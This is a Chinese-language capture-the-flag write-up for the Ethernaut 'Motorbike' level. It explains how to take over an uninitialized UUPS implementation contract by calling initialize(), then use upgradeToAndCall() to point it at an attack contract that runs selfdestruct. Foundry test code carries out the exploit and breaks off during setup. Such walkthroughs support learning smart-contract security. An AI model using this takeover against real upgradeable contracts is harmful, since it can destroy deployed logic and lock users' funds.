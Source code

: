 一旦我们调用了 `Engine` 的 `initialize()`，我们就会成为 `Engine` 合约的 `upgrader`。作为 `upgrader`，我们就可以调用 `upgradeToAndCall()` 函数。

```solidity
// In Engine.sol
function upgradeToAndCall(address newImplementation, bytes memory data) public payable {
    _authorizeUpgrade();
    _upgradeToAndCall(newImplementation, data);
}

function _authorizeUpgrade() internal view {
    require(msg.sender == upgrader, "Can't upgrade");
}
```

`upgradeToAndCall()` 允许我们将 `Engine` 的实现指向一个全新的合约，并执行新合约中的任意函数。我们的攻击计划是：

1.  **找到 `Engine` 实现合约的地址**: UUPS代理的实现地址存储在特定的存储槽位 `0x360894a13ba1a3210667c828492db98dca3e2076cc3735a920a3ca505d382bbc`。
2.  **成为 `upgrader`**: 直接调用 `Engine` 合约的 `initialize()` 函数。
3.  **部署恶意合约**: 创建一个包含 `selfdestruct` 逻辑的攻击合约。
4.  **升级并自毁**: 调用 `Engine` 的 `upgradeToAndCall()`，将实现指向我们的恶意合约，并调用其自毁函数。

**关于 Dencun 升级 (EIP-6780) 的说明**: 在 Dencun 升级后，`selfdestruct` 的行为发生了变化。它不再无条件地移除合约代码。然而，在许多测试环境和一些特定条件下，此攻击仍然有效。本解法基于 `selfdestruct` 能够移除合约代码的经典行为。

## 💻 Foundry 实现

### Foundry 测试代码

测试代码将完整地模拟上述攻击流程。

```solidity
// SPDX-License-Identifier: Unlicense
pragma solidity ^0.8.0;

import "forge-std/Test.sol";
import "src/25_Motorbike.sol";

// 接口定义
interface IEngine {
    function initialize() external;
    function upgradeToAndCall(address newImplementation, bytes memory data) external;
    function upgrader() external view returns (address);
}

// 包含自毁逻辑的攻击合约
contract Attack {
    function boom() external payable {
        selfdestruct(payable(msg.sender));
    }
}

contract MotorbikeTest is Test {
    Motorbike motorbikeInstance;
    IEngine engineInstance;
    address player;
    address engineAddress;

    function setUp() public {
        player = vm.addr(1);
        
        // 部署关卡合约
        Engine engine = new Engine();
        motorbikeInstance = new Motorbike(address(engine));

```